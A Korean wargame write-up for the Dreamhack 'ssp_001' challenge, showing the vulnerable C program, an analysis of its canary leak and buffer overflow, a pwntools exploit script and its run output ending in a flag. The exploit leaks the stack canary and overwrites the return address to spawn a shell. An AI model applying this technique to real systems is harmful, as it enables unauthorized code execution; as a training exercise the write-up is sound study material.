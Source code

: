 ```yaml
---
title: "[Dreamhack] ssp_001 문제 풀이"
date: "2024-09-25"
tags: ["dreamhack", "system_hacking", "wargame"]
draft: false
summary: "요약: SSP가 있다. 하지만 Canary를 곁들인."
---
```


# 문제 개요

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
void menu() {
    puts("[F]ill the box");
    puts("[P]rint the box");
    puts("[E]xit");
    printf("> ");
}
int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```

문제의 코드는 위와 같다. 문제를 간단히 설명하자면,

총 2곳에 BOF 취약점이 발생하고 보안 기법은 NX bits, Canary 총 2개가 걸려있는것을 확인할 수 있다.

`get_shell` 함수는 shell을 주는 함수이다. Return Address는 이걸로 선정하면 될 것 같다.

`P`는 위 array의 범위를 검증하지 않아서 BOF가 발생한다.

사용자가 입력한 값을 `box`의 index로 그대로 들어가게 되어 box 를 넘어 Canary 값을 leak 할 수 있다.

`E`에선 사용자가 입력한 길이만큼 name의 값을 넣을 수 있다.

첫번째 input에서 Return Address Overwrite가 가능할 정도의 긴 값(길이)를 넣고 두번째 input엔 buf(name) dummy 값 + canary + SFP dummy 값 + get_shell 함수의 주소를 넣어주면 끝난다.

**작성한 시나리오대로 익스플로잇 코드를 작성해보자.**
# 익스플로잇 코드 작성

```c
from pwn import *
#p = remote('host1.dreamhack.games', 21093)
p = process('./ssp_001')
elf = ELF('./ssp_001')

get_shell = elf.symbols['get_shell']
canary = b''
pause()
for i in range(131, 127, -1):
    p.sendlineafter(b'> ', b'P')
    p.sendlineafter(b"Element index : ", str(i))
    p.recvuntil(b"is : ")
    canary += p.recv(2)

canary = int(canary, 16)
print(f'canary: {hex(canary)}')

payload = b'A' * 64
payload += p32(canary)
payload += b'A' * 8
payload += p32(get_shell)

p.sendlineafter(b'> ', b'E')
p.sendlineafter(b"Name Size : ", '100')
p.sendlineafter(b"Name : ", payload)

p.interactive()
```

위 익스플로잇 코드는 위에서 설명한 그대로를 가져왔다.

`P`에서 1바이트씩만 값이 나와서 for 문을 사용해서 Canary를 합쳐주는 작업을 진행했다.

`E`는 `ebp ~ return address`까지 계산해서 여유있게 100bytes 로 정했다.

**작성한 코드로 익스플로잇을 진행해보자.**
# 익스플로잇!!

```bash
root@18b05c8ca88f:~/dh/ssp-01# python3 ex.py 
[+] Opening connection to host1.dreamhack.games on port 8930: Done
[*] '/root/dh/ssp-01/ssp_001'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Paused (press any to continue)
/root/dh/ssp-01/ex.py:11: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendlineafter(b"Element index : ", str(i))
canary: 0x20727a00
/root/dh/ssp-01/ex.py:27: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline('cat flag')
[*] Switching to interactive mode
DH{00c609773822372daf2b7ef9adbdb824}
```

# 알림

시간이 조금 애매해져서 이제부턴 문제 풀이만 올릴 예정임. 참고바람.

아마 지금 학교에서 하는 사이버 가디언즈 워게임 풀이로 올릴 것 같다는..